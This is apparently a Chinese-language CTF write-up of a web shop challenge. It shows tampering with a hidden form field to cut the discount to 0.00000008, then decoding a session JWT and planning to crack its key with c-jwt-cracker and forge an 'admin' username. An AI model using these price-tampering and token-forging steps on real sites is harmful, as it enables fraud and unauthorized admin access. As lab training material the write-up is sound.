 ## 在网页更改优惠券

优惠券:-20.0%

```
<form action="" method="post">
<input type="hidden" name="_xsrf" value="2|8dfe5a53|344c42fa8eb31096ba497b29580ae08c|1693473046">
<input type="hidden" name="id" value="1624">
<input type="hidden" name="price" value="1145141919.0">
<input type="hidden" name="discount" value="0.8">
<button class="btn btn-danger" type="submit">结算</button>
</form>
```

0.8-->0.00000008

购买成功后，显示只允许admin查看

## cookie带了JWT

```
_xsrf=2|a5334d1c|1c8155b5a67e07d992846c6670c7f7c3|1693473046; JWT=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InF3ZXJ0eSJ9.FbjCsNp1kM-NvtKYKMcDZAcifvO6EojCYhnps1XD6FU; commodity_id="2|1:0|10:1693473749|12:commodity_id|8:MTYyNA==|fae4edddc5a432b04dcaf8f0f0481740a13b4e969cd618ed23018774290cff21"
```

```
JWT=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InF3ZXJ0eSJ9.FbjCsNp1kM-NvtKYKMcDZAcifvO6EojCYhnps1XD6FU
```

https://jwt.io

进行base64解码

![image-20230831172930716](https://s2.loli.net/2023/08/31/4giOrFpuQ9CjPlt.png)

```
{
  "username": "qwerty"
}
```

pyload存在用户名



## 替换cookie

破解jwt key

将username的值改为admin,编译后再替换cookie

### c-jwt-cracker

github地址：https://github.com/brendan-rius/c-jwt-cracker
